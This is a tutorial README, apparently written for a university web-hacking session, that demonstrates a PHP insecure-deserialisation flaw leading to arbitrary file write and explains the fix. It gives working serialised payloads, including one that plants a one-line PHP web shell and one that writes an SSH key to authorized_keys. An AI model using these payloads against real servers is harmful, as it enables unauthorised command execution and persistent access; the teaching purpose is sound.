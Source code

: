 # Deserialisation Demo
I wrote this demo for our [Advanced Web Hacking](https://shefesh.com/assets/wiki/Advanced%20Web%20Hacking%20-%20PDF.pdf) session.

It is a demo of a very simple PHP Deserialisation Vulnerability. You can view more about Deserialisation in the slides linked above.

## Demo Code

The repository is available at: [https://github.com/Twigonometry/Deserialisation-Demo](https://github.com/Twigonometry/Deserialisation-Demo)

### The Vulnerable Code

#### unsafe.php

This represents a simple web application that constructs a `SignupForm` object and writes to a file when the `__destruct()` [magic method](https://www.php.net/manual/en/language.oop5.magic.php) is called. It accepts the GET parameter `username`, which it uses to write a username to a list of users who have signed up. It does this using the class' `parse_username()` and `__destruct()` functions.

#### The Vulnerability

The class variables `$outfile` and `$username_string` are normally set by the `parse_username()` method. However, an attacker can craft a `SignupForm` object manually and set these variables to whatever they like. If this is passed to the `username` GET parameter it is deserialised and the `__destruct` method is automatically called. This skips the `parse_username()` method and overrides the variables, meaning their attacker-controlled values are used in the `file_put_contents()` call.

The vulnerability only exists because untrusted data (i.e. user input) is passed directly to the `unserialize()` function. Remove this line, and the vulnerability is fixed. In fact, it's not even needed to make this program work - it is there just to teach about the mechanics of the vulnerability, but there may be situations where `unserialize()` may have a genuine use case - for example, frameworks like Laravel serialise PHP Objects that represent users. In this case, developers must ensure that no untrusted data is involved in this deserialisation, either directly or 'upstream' when data is passed from a database or similar connected service.

### The Exploit

#### generate-object.php

This is a recreation of the class being used on the web application, as could be created by an attacker with a 'whitebox' view of the web app's `unsafe.php` file.

It creates an instance of the class, with preset values that are used when the object is deserialised. The `$username_string` variable determines the contents that will be written to the file, and the `$outfile` variable determines the path (within the web server's directory). Change these to change the behaviour of your payload.

By default, the object looks like this:

```
O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}
```

The syntax is as follows:
- `O` tells us the type is an 'object'
- `10` tells us the character length of the class name `SignupForm`
- `2` tells us the number of variables within the object
- Within the curly brackets `{ }` are the object variables. They follow a similar structure, with each one having a type (`s` meaning 'string'), a variable name and length (`7:"outfile"`), and a value (a string (`s`), `10` characters long, called `"gotcha.txt"`). The variable names and values, and each pair thereof, are separated by semicolons `;`.

This will write the string "malicious stuff goes here" to the `gotcha.txt` file. Pretty harmless, but it should show you how the exploit works!

You can, of course, create these manually - but counting the length of a load of variable names is a pain and it's easy to make a syntax mistake!

#### Triggering the Attack

A serialised object must be generated (see `generate-object.php`) and then passed to the `username` GET parameter. To test this locally, run your webserver:

```
$ php -S localhost:5000
```

Change your payload by editing the `$username_string` and `$outfile` variables in `generate-object.php`, then make a request to get your object:

```
$ curl localhost:5000/generate-object.php
```

Then make a request to the page, passing your object to the `username` GET parameter:

```
http://localhost:5000/unsafe.php?username={SERIALISED OBJECT HERE}
```

*Note:* If you use curl, bash may throw a fit at your curly brackets. You can either visit the URL in your browser, or use the `--globoff` flag to [escape the brackets](https://stackoverflow.com/questions/8333920/passing-a-url-with-brackets-to-curl)

Here is the request we made, using our malicious object:

```
http://localhost:5000/unsafe.php?username=O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}
```

The `gotcha.txt` file should now appear in the webserver directory!

*Another Note:* Remember, anything you put in your payload happens on *your* machine - if someone monitors your installation directory for naughty `.txt` files and you write something you shouldn't have, don't come crying to us.

#### Exploit Payloads

Our example exploit writes something fairly harmless to `gotcha.txt`, demonstrating the vulnerability. However, there are lots of ways to exploit arbitrary file write, even within the constraints of the current directory. Here are a couple of examples:

**Write a Web Shell**

This won't necessarily allow you to escalate priveleges, but it lets you perform more actions on the box besides writing to files. You will have the permissions of the user who is running the web server (don't run your web servers as root!)

Here's the serialised object for a cheeky one-line PHP shell:

```
O:10:"SignupForm":2:{s:7:"outfile";s:7:"cmd.php";s:15:"username_string";s:29:"<?php system($_GET['cmd']);?>";}
```

If you're editing the `$username_string` variable here, you may need to escape the `$` character as follows: `public $username_string = "<?php system(\$_GET['cmd']);?>";`

**Write an SSH key**

The file location is limited by the `__DIR__` prefix. However, if for some ungodly reason this webserver was hosted in a user's home directory, a payload such as the following could write an SSH key to the `.ssh/authorized_keys` file. Like the above, this doesn't escalate your priveleges but grants you a more interactive shell.

Here's the object:

```
O:10:"SignupForm":2:{s:7:"outfile";s:20:".ssh/authorized_keys";s:15:"username_string";s:20:"YOUR ID_RSA.pub HERE";}
```

I shouldn't have to say this, but "YOUR ID_RSA.pub HERE" is not a valid SSH key. If you want this to work, make sure to replace it (ideally in the `generate-object.php` file itself, so it calculates the length for you)

## Acknowledgements

Thanks to a recent Hack the Box for the inspiration... I won't say which, as it's live! But now you know how this works, go out and find it and root it...